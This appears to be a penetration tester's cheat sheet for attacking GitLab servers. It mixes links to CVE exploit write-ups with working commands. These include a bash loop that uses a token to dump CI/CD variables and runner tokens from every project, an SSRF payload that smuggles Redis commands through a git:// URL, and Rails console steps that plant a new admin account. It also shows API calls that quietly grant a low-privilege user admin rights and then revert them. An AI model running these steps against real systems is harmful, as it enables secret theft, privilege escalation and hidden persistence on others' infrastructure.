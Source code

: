 # GitLab

- [https://devcraft.io/assets/hacktivitycon-slides.pdf](https://devcraft.io/assets/hacktivitycon-slides.pdf)
- [https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/](https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/)
- [https://github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)




## Search for Secrets

- [https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/](https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/)
- [https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/](https://rtfm.co.ua/en/git-scanning-repositories-for-secrets-using-gitleaks/)

Search for CI/CD variables and runner tokens:

```bash
TOKEN=`cat token`
GITLAB=gitlab.megacorp.local
API="https://$GITLAB/api/v4"

curl -sH "Authorization: Bearer $TOKEN" "$API/user" | jq

# 1. bash get_project_ids.sh <PAGE_NUMBER> | tee -a projects
curl -sH "Authorization: Bearer $TOKEN" "$API/groups/<GROUP_NAME_OR_ID>/projects/?include_subgroups=true&visibility=private&per_page=100&page=$1" | jq -r '.[].id'

# 2. bash get_secrets.sh
for id in `cat projects`; do
    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq '.path'

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id/variables" | jq

    curl -sH "Authorization: Bearer $TOKEN" "$API/projects/$id" | jq .runners_token | jq
done
```

Search for credential leaks with [gitleaks](https://github.com/zricethezav/gitleaks):

```
$ eget -qs linux/amd64 "zricethezav/gitleaks" --to gitleaks
$ gitleaks detect -s . -v | jq '.Match + " :: " + .File'
```




## GitLab Runners Abuse

- [https://frichetten.com/blog/abusing-gitlab-runners/](https://frichetten.com/blog/abusing-gitlab-runners/)
- [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)




## SSRF > Redis > RCE (CE/EE)

**CVE-2018-19571, CVE-2018-19585**

- [https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293)
- [https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)
- [https://www.exploit-db.com/exploits/49334](https://www.exploit-db.com/exploits/49334)

Also possible to use this payload (instead of IPv6) to bypass filter checks for localhost, but works only with `git://` scheme:

```
git://127.0.0.1:6379/%0a<REDIS_COMMANDS>
```




## Path Traversal > LFI > RCE (CE/EE)

**CVE-2020-10977**

- [https://xakep.ru/2020/05/26/gitlab-exploit/](https://xakep.ru/2020/05/26/gitlab-exploit/)
- [https://www.exploit-db.com/exploits/49076](https://www.exploit-db.com/exploits/49076)




## Path Traversal > File Write > RCE (EE)

**CVE-2019-19088**

- [https://gitlab.com/gitlab-org/gitlab/-/issues/36029](https://gitlab.com/gitlab-org/gitlab/-/issues/36029)




## gitlab-rails

Add new admin user from console:

```ruby
$ sudo gitlab-rails console
irb(main):001:0 > ActiveRecord::Base.logger = Logger.new($stdout)
irb(main):002:0 > User.find(1)
=> #<User id:1 @root>
irb(main):003:0 > user = User.create(:username => 'snovvcrash', :password => 'Passw0rd!', :password_confirmation => 'Passw0rd!', :admin => true, :name => 'snovvcrash', :email => 'snovvcrash@megacorp.local')
irb(main):004:0 > user.save!
irb(main):005:0 > user.confirmation_token
=> "ZVrM4KsyEdSoTJvo8kx_"
```

Then activate the account by navigating to `https://gitlab.megacorp.local/users/confirmation?confirmation_token=ZVrM4KsyEdSoTJvo8kx_`.

Enable password authentication for web (e. g., when only LDAP authentication is available):

```ruby
$ sudo gitlab-rails console
irb(main):001:0 > Gitlab::CurrentSettings.update!(password_authentication_enabled_for_web: true)
```

Grant a low-priv user admin's privileges via API:

```bash
# Check token priveleges
$ curl -sX GET -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/user" | jq '.is_admin'
# Grant low-priv user admin's privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=true" | jq '.is_admin'
# Revert low-priv user's original privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=false" | jq '.is_admin'
```
